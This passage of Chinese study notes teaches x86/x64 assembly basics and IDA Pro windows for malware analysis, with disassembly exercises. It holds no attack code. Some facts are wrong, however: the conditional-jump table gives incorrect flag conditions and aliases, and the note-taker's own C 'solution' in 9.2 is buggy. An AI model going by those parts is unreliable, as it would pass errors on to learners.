如果mul的操作数是8位二进制（1字节），则它使用8位al寄存器做乘法，然后结果存储在ax寄存器中。如果操作数使用的是16位二进制（2字节），则它使用16位ax寄存器做乘法，结果保存在dx和ax寄存器中。如果操作数是32位二进制（4字节），则它使用eax寄存器做乘法，结果保存在edx和eax寄存器中。结果保存在2倍大小的寄存器中是因为两个值相乘的结果将可能比输入大很多。
```assembly
mul ebx  ;ebx is multiplied with eax and result is stored in EDX and EAX
mul bx   ;bx is multiplied with ax and the result is stored in DX and AX
```
* 除法：div
div也只有一个操作数，并且可以是寄存器也可以是内存引用。在执行除法过程中，需要把被除数放在edx和eax寄存器中，edx可以保存大部分重要的dword（32位4字节）。被除数放在eax中，除数放在ebx中对应位置，在div指令执行之后，商被保存在eax，余数保存在edx寄存器中。
```assembly
div ebx   ; divides the value in EDX:EAX by EBX。EAX/EBX=EDX（余数）:EAX（商）
```
#### 4.1 反汇编挑战
```assembly
mov dword ptr [ebp-4], 16h
mov dword ptr [ebp-8], 5
mov eax, [ebp-4]
add eax, [ebp-8]
mov [ebp-0Ch], eax
mov ecx, [ebp-4]
sub ecx, [ebp-8]
mov [ebp-10h], ecx
```
练习：
a=16h
[ebp-8]=5
eax=16h
eax=16h+5h=1Bh
[ebp-0Ch]=1Bh
ecx=16h
ecx=16h-5h=11h
[ebp-10h]=11h


int a=16h
int b=5
int c,d
c=a+b=1Bh
d=a-b=11h

int a,b,c,d
a=22;
b=5;
c=a+b=27;
d=a-b=17;

答案原C语言代码：
```C
int num1 = 22;
int num2 = 5;
int diff;
int sum;
sum = num1 + num2;
diff = num1 - num2;
```
### 5. 按位操作
按位从最右侧开始编号，最右边（最低有效位）是0位的位置，从右向左按位提高。最左边位为最高有效位。如下所示：

位操作不是指令；只有一个操作数（作为源和目的）和颠倒所有位。如果eax包含FF FF 00 00 (11111111 11111111 00000000 00000000),则下面的指令将会反转所以为。并存储在eax寄存器中。
```assembly
not eax
```
* and，or，xor指令执行对应位操作并且保存在目的地址中。
cl和bl进行and操作执行，将会按位相与，得出结果保存在bl中。
```assembly
and bl,cl; bl=bl&cl
or eax,ebx   ; same as eax = eax | ebx
xor eax,eax  ; same eax = eax^eax, this operation clears the eax register
```
* 逻辑shr(右移) 和shl(左移) 指令
有两个操作数（目的和记数）。目的操作数可以是寄存器也可以是内存关联地址。这些指令与c或者python中的shift left （<<）或者shift right（>>）很像。
```assembly
shl dst,count
```
逻辑位移指令，顺序左移或者右移，最高位移到cf中，最低位0补充。
* 特殊的：xor eax,eax 常用于清除eax的值

关于位操作的引申阅读：
https://en.wikipedia.org/wiki/Bitwise_operations_in_C
https://www.programiz.com/c-programming/bitwise-operators.


* rol(循环左移) 和ror(循环右移)
与shift执行相似，只是移出的位添加到另一边。例如左边移出的位添加到右边。

### 6. 分支和条件
if/else和 jump
jump有两种：有条件和无条件
#### 6.1 无条件跳转
无条件跳转常用到jump。机器码jmp。这与C中的goto类似。下面的质量将控制跳转到jump address（跳转地址）并从此处开始执行：
```assembly
jmp <jump address>
```
#### 6.2 有条件跳转
在控制跳转时，控制转入一个内存地址需要基于一些条件。你需要执行变更标志（重置或则清除）。这些指令可以执行算数运算或者位运算。在x86指令提供cmp指令，从第一个操作数（目的操作数）减第二个操作数（源操作数）将结果保存在目的操作数中，同时修改标志位。在接下来的指令中，如果eax为5，cmp eax,5 则eax-5=0 将会设置flag(zf位为1)：
```assembly
cmp eax,5    ;# eax-5设置flags但是结果不保存
```
另一个指令改变标志位flags但是不保存结果：```test```指令。```test```指令执行1比特操作```and```同时改变标志位并不存储结果。
```assembly
test eax,eax;
```
cmp,test指令都带有jump指令判定，可以跳转。
几种jump指令变种：
```assembly
jcc <address>  ;
```
cc为条件格式，条件基于在eflags寄存器中比特位。下面是不同类型跳转条件及别名以及标志位使用表：
| 指令| 描述 | 别名 | 标志位使用 |
| ------ | ------ | ------- | -------------- |
| jz | jump if zero | je | zf=1 |
| jnz | jump if not zero | jne | zf=0 |
| jl | jump if less| jnge | sf=1 |
| jle | jump if less of equal | jnle | zf=1 or sf=1|
| jg | jump if greater | jnle| zf=0 and sf=0|
| jge | jump if greater or equal | jnl | sf=0 |
| jc | jump if carry (如果有进位)| jb,jnae | cf=1 |
| jnc | jump if not carry（如果不进位） |jnb,jae | |


#### 6.3 if语句
从逆向的角度，识别分支和条件声明是很重要的。为了做到识别有必要了解清楚再汇编语句中如何实现分支和条件声明（如if,if-else,if-else if-else）的汇编语言。
```c
if (x==0){
x=5;
}
x=2;
```
```==```对应```not equal to (jne)```
```assembly
cmp dword ptr[x],0
jne end_if
mov dword ptr[x],5

end_if:
mov doword ptr[x],2
```



#### 6.4 if-else语句
```c
if(x==0){
x=5;
}
else{
x=1;
}
```
```assembly
cmp dword ptr[x],0
jne else
mov dword ptr[x],5
jmp end

else:
mov dowrd ptr[x],1

end:
```
#### 6.5 ifleseif-else 语句
```c
if(x==0){
x=5;
}
else if(x==1){
x=6;
}
else{
x=7;
}
```
```assembly
cmp dword ptr[ebp-4],0
jnz else_if
mov dword ptr[ebp-4],5
jmp short end   # 段内短转移，修改范围：-128~127，"short"说明进行短转移。
else_if:
cmp dword ptr[ebp-4],1
jnz else
mov dword ptr[ebp-4],6
jmp short end

else:
mov dword ptr[ebp-4],7
end:
```

#### 6.6 反汇编练习
```assembly
mov dword ptr [ebp-4], 1
cmp dword ptr [ebp-4], 0
jnz loc_40101C
mov eax, [ebp-4]
xor eax, 2
mov [ebp-4], eax
jmp loc_401025
loc_40101C:
mov ecx, [ebp-4]
xor ecx, 3
mov [ebp-4], ecx
loc_401025:
```

```c
x=1
if (x==0)
{
	x=x^2;
}
else{
	x=x^3;
}
```

### 7. 循环
最常见的两个循环for和while。
```c
/*for 循环*/
for(初始值;条件;更新语句){
	代码块
}
/*while 循环*/
初始化
while(条件){
	代码块
}
```

示例：
```c
int i=0
while(i<5){
i++;
}
```

```assembly
mov [i],0 
while_start:
cmp [i], 5  
jge end 
mov eax, [i]
add eax, 1
mov [i], eax
jmp while_start 
end:
```
#### 7.1 反汇编挑战
```assembly
mov dword ptr [ebp-8], 1
mov dword ptr [ebp-4], 0
loc_401014:
cmp dword ptr [ebp-4], 4
jge short loc_40102E
mov eax, [ebp-8]
add eax, [ebp-4]
mov [ebp-8], eax
mov ecx, [ebp-4]
add ecx, 1
mov [ebp-4], ecx
jmp short loc_401014
loc_40102E:

```

```c
int x=1;
int y=0;
while(y<4){
	x=x+y;
	y++;
}
```

### 8. 函数
参数，局部变量和函数控制流都保存在内存的栈中。
#### 8.1 栈
栈是当操作系统线程创建的时候由操作系统制定分配的内存中的一块区域。栈后进先出（LIFO，Last-In-First-Out）。通过```push```,```pop```，来对栈进行压栈和弹栈操作，分别对应压入4byte和从栈顶弹4byte值操作。
```assembly
push source; 将源(source)压入栈顶
pop destination; 将栈顶值弹出到目的地址（destination）
```
栈从从高地址向低地址增长。当一个栈被创建，```esp```寄存器（也被称为栈指针）指向栈顶（逻辑上的高位，但从地址来看是指向栈里值中最低地址那位），当执行```push```操作将数据压入栈中，```esp```寄存器则指向比压入数据更低位的（esp-4）地址。当执行```pop```后，esp则加4（esp+4）。

举例：
```assembly
/*假设esp 初始指向0xff8c*/
push 3  //esp-4
push 4  //esp-8
pop ebx //esp-> esp-4
pop edx
```
ebx=4 ,edx=3, esp最后指向初始位置

#### 8.2 调用函数
```assembly
call 函数名
```
汇编在调用函数之前将下一需要执行指令地址保存在栈中。并在函数调用结束之后从栈中弹出地址继续执行。

#### 8.3 函数返回
汇编中函数返回使用ret命令，该命令执行```pops```将弹出栈顶的地址，取出的值放在eip寄存器。
```assembly
ret
```

#### 8.4 函数参数和返回值
在x86架构中函数的参数被压在栈中，返回值在eax寄存器中被替代。
```c
int test(int a, int b)
{ 
    int x, y; 
    x = a; 
    y = b;        
    return 0;
}
 int main()
{
test(2, 3); 
   return 0; 
}
```

```assembly
main:
push 3 
push 2 
call test 
add esp, 8 ; after test is exectued, the control is returned here
xor eax, eax

test:
push ebp   //栈顶指针，指向本函数在栈的栈顶,用于函数执行完返回函数入口地址继续执行，执行之后esp会自动减4，压栈使用
mov ebp,esp   //ebp/esp同时指向栈顶，ebp用作固定位置，应用使用ebp关联函数参数和局部变量
sub esp,8   //为x,y分配空间
//---实际上函数代码----
mov eax,[ebp+8]
mov [ebp-4],eax
mov ecx,[ebp+0Ch]
mov [ebp-8],ecx
//-------
xor eax,eax  //eax清0，return 0，返回值通常保存在eax
//---还原函数环境---
mov esp,ebp  
pop ebp
//-------
ret
```


```push ebp```和```mov ebp,esp```经常出现在函数的开始，可以被称作函数的序或者函数的开始。是函数用来初始化函数使用的。
```mov esp,ebp```和```pop ebp```执行函数的序逆向操作。成为函数尾声，在函数执行之后恢复环境。



ebp在这里被设置为固定位置，函数的参数可以通过ebp+正向偏移量进行标定。局部变量可以通过ebp-偏移量进行标定。举例上面test(2,3)，函数参数2，被存储在ebp+8（a）位置，第二个参数被存储在ebp+0xc（b），局部变量分别放在ebp-4（x），ebp-8（y）。


> 大部分编译器（如Microsoft Visual C/C+ 编译器）使用固定ebp堆栈结构去关联函数参数和局部变量。GNU编译器（如gcc）默认不用ebp堆栈结构，而是使用ESP（栈指针）集群器做呗关联函数参数和局部变量。

pop ebp之后将恢复ebp保存在栈中的值，这个操作之后，esp将会+4。再执行了还原函数环境操作之后：


当ret执行之后，返回地址在栈顶，被弹栈到eip寄存器中。控制器返回到主函数执行地址中（在主函数中```add esp,8```）。在弹栈到返回地址中之后，esp+4。在这点，控制器被控制返回主函数执行。主函数main中的```add esp,8```用于清理栈，esp返回到最开始的位置（0xFE50）。```add esp,8```这样的函数称为```cdecl```传统调用。


大部分C语言编译器都遵循cdecl调用惯例。在cdecl惯例中，调用者将变量以从右到左的规则压栈到栈中，调用者caller自身在调用函数之后清除自身。也有其他调用规则，例如stdcall和fastcall。在stdcall规则中，变量通过caller调用者和callee被调用者从右到左的规则压入栈，调用函数callee负责清理栈。Microsoft windows使用stdcall规则处理被dll文件输出的API函数。在fastcall调用规则中，开始一些参数通过直接存放在寄存器被传递给函数，剩下的所有参数通过以从右到左的方式压入栈中，并且与stdcall类似被调用者callee负责清理栈。（后面会特别的看到64位程序使用fastcall调用规则）

### 9 数组和字符串
数组是由相同类型数据组成的一个列表。数组元素在内存中连续存储，便于访问数组中的元素。下面的定义一个含有3个元素的整数型数组，每个元素在内存中占用4字节（因为一个常数是4字节长度）：
```
int nums[3]={1,3,4}
```

数组的名是一个指向数组第一个元素的指针常量（数组名指向数组的基址```base address```）。访问数组需配置相对基址相对地址（原文叫：```index```）类似nums[1]：



在汇编中，数组中的任何一个元素的地址计算需要三个东西：
* 数组的基址
* 元素的相对地址
* 数组中每个元素的大小

高级语言中```nums[0]```对应转化为汇编的```[nums+0*<每个元素的大小字节>]```，前面的例子对应的各元素的汇编则为：
```
nums[0]=[nums+0*4]=[0x4000+0*4]=[0x4000]=1
nums[1]=[nums+1*4]=[0x4000+1*4]=[0x4004]=3
nums[2]=[nums+2*4]=[0x4000+2*4]=[0x4008]=4
```
一般访问数组元素的形式或公式为：
```[base_address+index*size of element]```

#### 9.1 数据反汇编挑战
```assembly
push ebp
mov ebp, esp
sub esp, 14h
mov dword ptr [ebp-14h], 1
mov dword ptr [ebp-10h], 2
mov dword ptr [ebp-0Ch], 3
mov dword ptr [ebp-4], 0
 loc_401022:
 cmp dword ptr [ebp-4], 3
 jge loc_40103D
 mov eax, [ebp-4]
 mov ecx, [ebp+eax*4-14h]
 mov [ebp-8], ecx
 mov edx, [ebp-4]
 add edx, 1
 mov [ebp-4], edx
 jmp loc_401022
 loc_40103D:
xor eax, eax
 mov esp, ebp
 pop ebp
```

#### 9.2 反汇编解决方法
反汇编：
```c
int main(){
int num[2]={3,2,1}
int b,i
for(i=0;i<3;i+1){
b=num[3-i];
}
return 0;
}
```
> 这里汇编for和while语句无区别，可参考在两个c语言for和while循环生成汇编代码之后的区别看出https://my.oschina.net/firebroo/blog/406286 因此反汇编也无区别

书里是使用的while语句循环做的反汇编：
```c
int main()
{
  int a[3] = { 1, 2, 3 };
  int b, i;
  i = 0;
   while (i < 3)
   { 
     b = a[i]; 
     i++;
   }
  return 0;
}
```


​	
反汇编分析：
```assembly
//---函数开场（非代码）---
push ebp
mov ebp, esp
//---函数开场结束---
sub esp, 14h   //分配局部变量（非代码）
//---代码段---
mov dword ptr [ebp-14h], 1
mov dword ptr [ebp-10h], 2
mov dword ptr [ebp-0Ch], 3
mov dword ptr [ebp-4], 0
 loc_401022:
 cmp dword ptr [ebp-4], //循环对比条件
 jge loc_40103D  //循环结束跳转条件，人工判断loc_40103D为结束循环
 mov eax, [ebp-4]  //[ebp-4]被初始化为0
 mov ecx, [ebp+eax*4-14h] //代表数组内容访问,根据标准格式调整应该为[ebp-14h+eax*4],ebp-14h为数组的基址，数组元素大小为4比特。
 mov [ebp-8], ecx
 mov edx, [ebp-4]
//循环变量增加
 add edx, 1
 mov [ebp-4], edx
//循环变量增加结束
 jmp loc_401022  //循环语句
 loc_40103D:
xor eax, eax
//---代码段结束---
//---函数结尾清理---
 mov esp, ebp
 pop ebp
//---函数结尾清理结束---
```


#### 9.3 字符串
字符是字符数组，当定义一个字符串的时候，一个空终止符（字符串终止符）被加在每个字符串的结尾。每个元素占用内存一个字节（换句话说，每个ASCII码1字节长）。
```
char *str="aaaaaaaaaaaaaaaaaa"
```
字符串名字str是一个纸箱字符串第一个元素的指针（指向字符阵列基址指针）。下图为字符串在内存中的图表：


```assembly
str[0]=[str+0]=[0x4000+0]=[0x4000]=L
str[1]=[str+1]=[0x4000+1]=[0x4001]=e
str[2]=[str+2]=[0x4000+2]=[0x4002]=t
```

字符串一般表达式：
```
str[i]=[str+i]
```

##### 9.3.1 字符串指令
x86框架的操作系统提供字符操作用于字符串处理。这些命令的步骤通过字符串（字符数组）和加后缀b、w、d等，表示操作的数据的大小（1,2或4字节）。字符串命令使用eax,esi和edi寄存器。eax或者其子寄存器ax,al用于存放数值。寄存器esi作为源地址寄存器（保存源字符串的地址），edi作为目的地址寄存器（用于保存目的字符串地址）。

执行字符串操作之后，esi和edi急促那期都自动增加或者减少。方向标志位（DF——direction flag）在eflags寄存器决定了esi和edi是否需要增加或减小。cld指令清除方向标志位标志（df=0）；if df=0，则索引寄存器（esi和edi）增加。std指令设置方向标志位标志（df=1）；在这里esi和edi减小。

##### 9.3.2 移动内存到内存(movsx)
movsx指令用于移动一段内存序列从内存一处到另一处。
movsb指令被用于移动1字节数据通过esi寄存器地址移动到指定的edi寄存器地址。
movsw,movsd指令移动2，4字节数据通过esi寄存器地址移动到指定edi寄存器地址。
当数据值被移动，esi和edi寄存器增加或减小基于数据大小的1,2,或4字节。下面是一个例子：
```assembly
lea esi,[src] ; "Good",0x0
lea edi,[dst]
movsb
```
>mov ----为数据传送指来令，可以在寄存器（立即数）、内存之间双向传递数据。
lea ----取内存单元自的有效地址指令，只用于传送地址。

假设地址标签src内容为"good"，以空字符(0x0)结尾。在执行第一个命令后，esi将会包含"good"的第一个字符的地址（esi指向"g“所在的地址），第二个指令执行之后，将会设置EDI的内容为dst。第三个语句执行将会复制1字节从esi指向的地址数据到edi指向的地址数据。执行借宿esi和edi都将加1。



##### 9.3.3 重复指令（rep）
movsx指令只能复制1,2，或4字节数据。复制更多字节内容则使用rep指令。rep指令使用ecx寄存器，并且重复执行ecx指定次数的字符串操作指令。下面的汇编代码是复制"good"从src到dst：
```assembly
lea esi,[src] ; "Good",0x0
lea edi,[dst]
mov ecx,5
rep movsb
```
rep指令，当使用movsx指令，等效C语言中的memcpy()函数。rep指令有多种形式，并且在执行循环中基于条件允许提前终止。下面的表格内容为不同形式的rep指令和他们含义：

|instruction|condition|
|------|------|
|rep|重复指令直到ecx=0|
|repe,repz|重复直到ecx=0或者zf=0|
|repne,repnz|重复直到ecx=0或zf=1|


##### 9.3.4. 将寄存器中值存到内存中(stosx)
stosb指令用于从CPU的al寄存器中移动1字节的数据到edi指定的内存地址中（目的索引寄存器）。stosw和stosd指令分别用于移动2字节和4字节地址到edi指定的内存地址中。通常stosb指令与rep指令被用于初始化所有缓冲区字节为相同的某值。下面的汇编代码使用5个双字节填充目的缓冲区，值都为0（换句话说初始化了5*4=20字节的内存空间为0）  
```
mov eax,0
lea edi,[dest]
mov ecx,5
rep stosd
```

##### 9.3.5 从内存中加载数据到寄存器中（lodsx）
lodsb指令从esi指定的内存地址（源索引寄存器）中加载到al寄存器总。lodsw和lodsd指令是移动2字节和4字节数据从esi指定的内存地址中到ax和eax寄存器中。

##### 9.3.6 扫描内存（scasx）
scasb指令用来搜索或扫描1字节的值在字节序列中存在或者不存在。要搜索的字节存放在al寄存器中，缓存内存地址存放在edi寄存器中。scasb指令常与repne指令（repne scasb）连用，ecx设置缓存长度；重复直到每个字节在al寄存器中找到或直到ecx变为0。

##### 9.3.7  对比内存中的值（cmpsx）
cmpsb指令被用于对比esi指向的内存地址中的1字节值和edi中的值对比，以判断是否是相同的值。cmpsb通常和repe一起用（repe cmpsb)对两个内存缓存；在这种情况下，ecx为缓存的长度，对比将会一直持续到ecx=0或者缓存不相等。

### 10 结构
一个结构组是不同种类的数据放在一起；每个结构中的元素成为一个成员。结构体成员通过常量偏移访问。举个便于理解的C语言例子，静态结（simple struct）定义包含三个成员不同数据种类的变量（a,b和c）。主函数main定义结构变量（test_stru），结构体的变量地址（&test_stru）作为第一个参数传递给update函数。在update函数中，成员的值被更新为被指定变量值:
```c
struct simpleStruct
{
  int a;
  short int b;
  char c;
};
 void update(struct simpleStruct *test_stru_ptr) {
 test_stru_ptr->a = 6;
 test_stru_ptr->b = 7;
 test_stru_ptr->c = 'A';
}
 int main()
{
 struct simpleStruct test_stru;  ➊  
 update(&test_stru);  ➋
 return
```

为了了解结构体成员如何存储，我们考虑update函数的反汇编情况。
```assembly
push ebp
mov ebp, esp
mov eax, [ebp+8]  ➌
mov dword ptr [eax], 6  ➍
mov ecx, 7
mov [eax+4], cx  ➎
mov byte ptr [eax+6], 41h  ➏
mov esp,ebp
pop ebp
ret
```
```mov eax,[ebp+8]```结构体的基址传递到eax寄存器（注意：ebp+8代表第一个参数；第一个参数代表结构体的基址）。```mov dword ptr [eax], 6```通过基址加偏移量0指定为第一个成员赋值整数值6（[eax+0]与[eax]相同）。由于整数占用4字节，第二个成员为short in值为7（存储在cx）通过基址+4被指向第二个成员。第三个成员为基址+6传递值为41h（A）。

通用的结构体成员的地址表达式可以总结为：
```[base_address+constant_offset]```

结构体与数组在内存中看起来类似，但是需要记住他们指针的区别：
1. 数组元素的数据都是相同类型的，结构体的成员并不一定都是相同的类型
2. 数组的元素大部分通过基址和变量访问（如[eax+ebx]或[eax+ebx*4]），答案是结构体大部分通过基址及偏移量访问（如[eax+4]）

### 11. x64架构
x64架构是x86架构的一个扩展和延伸。并且与x86指令设置类似，但是从代码分析的角度有一些不同。这一部分包括x64架构的一些不同点：
1. 32位（4字节）通用寄存器eax,ebx,ecx,edx,esi,edi,ebp和esp被扩展到64位（8字节）；这些寄存器名字变为rax,rbx,rcx,rdx,rsi,rdi,rbp和rsp。8个新寄存器的名字为r8,r9,r10,r11,r12,r13,r14和r15。一个程序可以以64位（RAX,RBX等），32位（eax,ebx等），16位（ax,bx等）或者8位（al,bl等）访问寄存器。例如，你可以访问RAX寄存器的下半部分作为EAX，RAX的四分之一或更低位作为AX寄存器使用。可以通过在寄存器名字后附加b,w,d或q以字节，字，双字或4字节访问r8-r15。
2. x64框架可以处理64位（8字节）数据，所有地址和指针都是64位（8字节）大小。
3. x64位CPU有64位指令指针（rip）包含下一个要执行的指令地址，并且还有64位的标志寄存器（rflags），但是通常只有32位被使用（eflags)。
4. x64架构支持rip-relative地址。rip寄存器现在可以被用来关联内存位置；你可以在当前指令指针加偏移访问数据。
5. 其他主要的不同是在x86架构中，函数参数被压栈到栈中，因此在x64架构中，前4个函数参数被存放在rcx,rdx,r8,r9寄存器中，如果函数需要额外的寄存器，则他们被存放在栈中。下面是个C的例子：

```printf("%d %d %d %d %d",1,2,3,4,5)```

32位（x86）中编译，所有的参数都被压倒栈中，在调用pringf之后, add esp,18h清除栈。

```assembly
push 5
push 4
push 3
push 2
push 1
push offset Format ; "%d %d %d %d %d"
call ds:printf
add esp, 18h
```

在64位（x64）处理器中编译，在寄存器中分配0x38（56字节）栈空间。前4个变量被存放在rcx,rdx,r8和r9寄存器中。第五和第六个参数被存放在栈中，使用```mov dword ptr [rsp+28h], 5; mov dword ptr [rsp+20h], 4```。push指令并不会出现在此例子中，这会使判断地址是否是局部变量还是函数参数更困难一些。在这个例子中，字符格式帮助确定printf函数的参数的数量，单数其他情况中中不太容易判断：

```assembly
sub rsp, 38h  ➊ 
mov dword ptr [rsp+28h], 5  ➐
mov dword ptr [rsp+20h], 4  ➏
mov r9d, 3  ➎
mov r8d, 2  ➍
mov edx, 1  ➌
lea rcx, Format ; "%d %d %d %d %d"  ➋
call cs:printf

```

> 如果遇到未提及的相关指令则可以参考最新intel 架构手册 https://software.intel.com/en-us/articles/intel-sdm, 指令设置相关 (volumes 2A, 2B, 2C, and 2D) 可以在下面下载https://software.intel.com/sites/default/files/managed/a4/60/325383-sdm-vol-2abcd.pdf.

#### 11.1 32位可执行程序在64位windows上分析
64操作系统可运行32位可执行程序；实现其功能是通过开发了一个被叫做wow64子系统(windows32位子系统在windows64位操作系统中)。wow64子系统允许32位二进制在64位操作系统中运行。当执行程序是，如果需要加载DLL调用API函数与系统交互。32位执行程序并不会加载64位的DLLs(64位程序也不会调用32位DLLs)，因此微软将DLL分成32位和64位两部分。64位二进制被存储在\windows\system32目录下，32位二进制被存放在\windows\syswow64目录下。

在进行了对比之后发现，32位程序在64位windows中运行的行为可能会与原生32位执行的不同。当分析32位恶意样本在64位操作系统中时，可能会发现样本实际上访问的是 system32目录，而不是syswow64目录（操作系统自动重定向syswow64目录）。如果一个32位恶意程序（在64位windows环境下）向\windows\system32目录中写入文件，那么需要检查在\windows\syswow64目录。因为访问```%windir%\regedit.exe```会重定向到```%windir%\SysWOW64\regedit.exe```中。因此会有可能造成分析过程中理解困难，为了避免类似情况最好还是在32位运行32位二进制，64位在64位运行。

> wowo64子系统如何影响你的分析的一文中可以看到更详细的分析http://www.cert.at/static/downloads/papers/cert.at-the_wow_effect.pdf


### 12. 其他资源
Learn C: https://www.programiz.com/c-programming C Programming Absolute Beginner's Guide by Greg Perry and Dean Miller x86 Assembly Programming Tutorial: https://www.tutorialspoint.com/assembly_programming/ Dr. Paul Carter's PC Assembly Language: http://pacman128.github.io/pcasm/ Introductory Intel x86 - Architecture, Assembly, Applications, and Alliteration: http://opensecuritytraining.info/IntroX86.html  Assembly language Step by Step by Jeff Duntemann Introduction to 64-bit Windows Assembly Programming by Ray Seyfarth  x86 Disassembly: https://en.wikibooks.org/wiki/X86_Disassembly

### 总结

在本章我们了解了汇编语言执行的代码以及必要的技术。并对比了x86和x64的框架区别。反汇编和反编译技巧将会有助于后续的理解样本分析工作。


## 5. 使用IDA反汇编
代码分析常用语了解恶意样本内部源码不可见时使用
### 1. 代码分析工具
代码分析工具可以根据他们的功能、描述、数量进行分类。
反汇编程序是一个可以将机器语言转汇编代码；并且可以静态代码分析。静态代码分析可以在不执行二进制程序的时候让你了解到程序的行为。

一个调试器是个应用程序同时也是可以反汇编代码；除此之外也可以执行控制汇编二进制执行。使用调试工具，你不仅可以执行单条指令，或选择函数，或执行整个程序。调试工具可以动态分析，还可以在程序执行的过程中检查可疑的二进制。

反编译器是一个将机器码转成更高级语言的程序（伪代码）。反编译器能够很好辅助反推工程进程并能够简化工作。

### 2. 静态代码分析（使用IDA反汇编）

Hex-Rays IDA pro
https://www.hex-rays.com/products/ida/
IDA是最有影响力且流行的商业反编译调试工具；常被用于逆向工程，恶意病毒分析以及脆弱性研究。IDA可以运行在不同平台（macOS、Linux和windows）支持分析不同的文件类型（PE/ELF/Macho-O）。除商业版本之外，IDA还提供2个其他版本：IDA demo版本（评估版本）和IDA免费版本；两个版本都有一定的限制，都可以反编译32和64位windows程序，但是免费版无法调试二进制，demo版本无法调试64位二进制，demo版本也无法保存数据库，并且demo版本和免费版都无法支持IDApython。

本部分和下一部分将会看下IDA pro的特征，并且使用IDA施行静态代码分析。这一部分仅包含与恶意代码分析相关的功能。
> IDA相关深入了解图书推荐《The IDA Pro Book》by Chris Eagle


#### 2.1 在IDA中加载二进制
IDA会像windows一样加载文件到内存中。IDA可以通过判断文件头确定最可能适合的加载器。在选择文件后IDA会加载对话框，用于确认合适的加载起和进程类型。文件设置（file option）选项是用于加载未识别的文件，一般使用该选项处理shellcode。默认情况下IDA不会在反编译中加载PE头和源部分。通过使用手动加载checkbox选项，可以手动选择加载基址和加载位置，IDA将会在加载的每个部分包括PE头给予相应的提示。点击OK，IDA将文件加载到内存，并且开始反编译相关代码。

#### 2.2 扩展IDA显示
IDA桌面版结合了很多静态分析工具的特征到一个单独特窗口中。下面将对IDA卓敏啊版和它不同窗口进行介绍。其包含多个不同的标签（IDA View-A,Hex View-1,等等），也可以通过点击添加标签按钮或者点击View/open subviews菜单进行添加。
##### 2.2.1 反汇编窗口
当二进制文件被加载，IDA展示的窗口就是反汇编编辑窗口（也叫做IDA-view窗口），这是个主要窗口，用于分析和展示反汇编代码，并且可以用于分析反汇编二进制。
IDA可以使用两个模式展示反编译的代码：Graph view（graph diassembly view）和Text view（实际应该叫text diassembly view）,默认进入的是graph view，这里可以使用空格快捷键进行切换。

在graph view模式下，IDA一次只显示一个函数，在一个流程图的窗口中函数在基本块区中断。这个模式可以快速识别分支和循环生命。在Graph view模式下，颜色和箭头的指示方向都是根据判断显示的。条件跳转使用红色和绿色的箭头，true条件用绿色箭头表示，false使用红色箭头表示。蓝色的箭头是被用来表示无条件跳转，循环使用的是向上的蓝色的箭头表示。在graph view中虚拟地址默认不显示（每个基础块仅显示最基本的信息展示）。如果需要显示虚拟地址信息，需要点击Options/general然后点击Line prefixes以启用。


下图中可以观察到条件跳转中，绿色箭头（条件true）进行跳转，对应的虚拟地址也是跳转，而红色箭头指向正常的数据流，虚拟地址为连续。


在text view模式中，整个反编译目前处于线性方式展示。整个虚拟地址默认展示，```<section name>:<virtual address>```格式。在text view窗口中最左边的部分被称为箭头窗口，用于展示程序的非线性流。虚线箭头代表条件跳转，实线箭头表示无条件跳转，加粗的箭头表示循环。


##### 2.2.2 函数窗口function widnow
函数窗口显示所有IDA识别出来的函数，该床扣同时也显示每个函数可以被找到的虚拟地址，每个函数的大小，以及其他函数相关信息。双击可以定位跳转到对应函数的位置。每个函数与大量的标志相关联（例如R、F、L等等标志）。通过F1按钮可以获取更多关于相关标志的帮助信息。一个有用的标志L标志，代表函数的库函数。库函数是编译器产生而非恶意软件作者编写的函数；从代码分析的角度来看，恶意样本分析的重点应该在恶意代码上，而不是库函数本身。

##### 2.2.3 输出窗口out window

输出窗口展示的是IDA以及IDA插件输出的相关信息。这些对于分析恶意样本以及样本对系统操作分析提供很多信息。可以通过查看输出在output窗口的内容可以获取IDA执行加载过程中的相关信息。
##### 2.2.4 十六进制窗口Hex view window
通过点击HexView-1标签可以展示Hex窗口。Hex窗口可以展示一系列的十六进制转储内容以及ASCII字符。默认情况下，十六进制窗口（hex window）。默认情况下十六进制窗口同步反编译窗口（disassembly window）内容；也就是在反汇编窗口中选择了一部分字节的数据，相应的在十六进制窗口中同样的会进行标记高亮相关的内容，这对于标记内存地址很有帮助。
##### 2.2.5 结构窗口structures window
点击structures windows标签，可以进入借口窗口。结构窗口展示程序使用的标准的数据结构，并且允许创建自建的数据结构。


##### 2.2.6 引用窗口imports window
引用窗口是所有二进制程序引用的函数的列表。展示了引用的函数以及相关函数引用的库函数内容。


##### 2.2.7 出口窗口exports window
出口窗口展示的是程序出口函数的列，出口函数通常在DLL动态链接库中，因此对于分析恶意样本DLL时有用。
##### 2.2.8 字符窗口string window
IDA默认不展示字符窗口，你可以通过点击view/open subviews/strings（或者使用Shift+F12快捷方式打开）字符窗口。字符窗口展示的是从二进制和地址中能够发现字符列表。默认情况下，字符窗口仅展示长度不小于5的null-terminated ASCII字符串。有些恶意样本的二进制使用的是UNICODE字符。可以通过配置IDA显示不同的字符，右击Setup（或者Ctrl+U）检测Unicode C-style（16比特），点击ok即可。


##### 2.2.9 段窗口segments window
段窗口可以通过view/open subviews/segments（或者使用shift+F7开启）。段窗口是展示（.text,.data等等）部分内容的列表。显示信息包括开始地址，以及结束地址，每个部分的内存权限。开始和结束的地址都有每个部分的虚拟地址的详细说明，可用于定位对应内存中的位置。

#### 2.3 使用IDA提高反汇编
本部分将结合之前相关的知识内容进行反编译分析。考虑下面一个小程序从一个本地函数拷贝到另外一个变量中：
```
int main()
{
int x=1;
int y;
y=x;
return 0;
}
```
 以上代码编译之后在IDA反汇编之后如下：
```
 .text:00401000 ; Attributes: bp-based frame ➊
.text:00401000
.text:00401000 ; ➋ int __cdecl main(int argc, const char **argv, const char **envp)
.text:00401000  ➐ _main proc near
.text:00401000
.text:00401000    var_8= dword ptr -8  ➌
.text:00401000    var_4= dword ptr -4  ➌
.text:00401000    argc= dword ptr 8   ➌
.text:00401000    argv= dword ptr 0Ch  ➌
.text:00401000    envp= dword ptr 10h  ➌
.text:00401000
.text:00401000    push ebp  ➏   
.text:00401001    mov ebp, esp  ➏
.text:00401003    sub esp, 8  ➏ .text:00401006    mov ➍ [ebp+var_4], 1
.text:0040100D    mov eax, [ebp+var_4] ➍
.text:00401010    mov ➎ [ebp+var_8], eax
.text:00401013    xor eax, eax 
.text:00401015    mov esp, ebp  ➏
.text:00401017    pop ebp  ➏
.text:00401018    retn
```
